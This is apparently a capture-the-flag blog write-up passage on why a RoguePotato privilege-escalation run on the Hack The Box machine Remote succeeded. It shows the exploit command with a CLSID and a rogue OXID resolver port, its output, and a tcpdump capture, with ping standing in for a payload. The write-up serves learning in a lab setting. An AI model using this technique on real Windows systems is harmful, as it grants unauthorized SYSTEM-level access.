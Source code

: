 

## IppSec Mystery

### Setup

I had already been working on this post when I watched Ippsec's Remote
video where [he runs
RoguePotato](https://www.youtube.com/watch?v=iyYqgseKUPM&t=2415s). Since
he did the box without prep, he's giving the exploit a shot without
reading the background, and (since he probably doesn't want to spend a
long time reading while we watch), he tries to get it working by kind of
guessing at the commands and based on his understanding of the previous
exploits.

He doesn't stand up a local redirector or a local Oxid resolver, but
starts messing with the CLSID (which was something you had to do in
JuicyPpotato). He is above to give up and come back for a new video
sometime after he's had a chance to read about the exploit, when,
somehow, it works in a way that I initially couldn't explain or
reproduce:

[![](/img/image-20200908092002942.png)*Click
for full size
![image*](/img/image-20200908092002942.png)

### Trying to Reproduce

Trying to reproduce this, I killed `socat` and run the following
command, which is the same as his, replacing my IP for his and running
`ping` instead of the PowerShell encoded command:



    PS C:\programdata> .\RoguePotato.exe -r 10.10.14.9 -c "{B91D5831-B1BD-4608-8198-D72E155020F7}" -e "cmd.exe /c ping 10.10.14.9" -l 9999
    [+] Starting RoguePotato...
    [*] Creating Rogue OXID resolver thread
    [*] Creating Pipe Server thread..
    [*] Creating TriggerDCOM thread...
    [*] Listening on pipe \\.\pipe\RoguePotato\pipe\epmapper, waiting for client to connect
    [*] Calling CoGetInstanceFromIStorage with CLSID:{B91D5831-B1BD-4608-8198-D72E155020F7}
    [*] Starting RogueOxidResolver RPC Server listening on port 9999 ... 
    [*] IStoragetrigger written:102 bytes
    [-] Named pipe didn't received any connect request. Exiting ... 



This is the same output IppSec got back, but his also executed. I didn't
get any ICMP at `tcpdump`.

I started a second `tcpdump` to listen in TCP 135 and ran again:



    root@kali# tcpdump -ni tun0 'port 135'
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    07:31:42.479528 IP 10.10.10.180.49734 > 10.10.14.9.135: Flags [SEW], seq 1988875522, win 64240, options [mss 1357,nop,wscale 8,nop,nop,sackOK], length 0
    07:31:42.479595 IP 10.10.14.9.135 > 10.10.10.180.49734: Flags [R.], seq 0, ack 1988875523, win 0, length 0
    07:31:43.003368 IP 10.10.10.180.49734 > 10.10.14.9.135: Flags [S], seq 1988875522, win 64240, options [mss 1357,nop,wscale 8,nop,nop,sackOK], length 0
    07:31:43.003490 IP 10.10.14.9.135 > 10.10.10.180.49734: Flags [R.], seq 0, ack 1, win 0, length 0
    07:31:43.518888 IP 10.10.10.180.49734 > 10.10.14.9.135: Flags [S], seq 1988875522, win 64240, options [mss 1357,nop,wscale 8,nop,nop,sackOK], length 0
    07:31:43.518916 IP 10.10.14.9.135 > 10.10.10.180.49734: Flags [R.], seq 0, ack 1, win 0, length 0

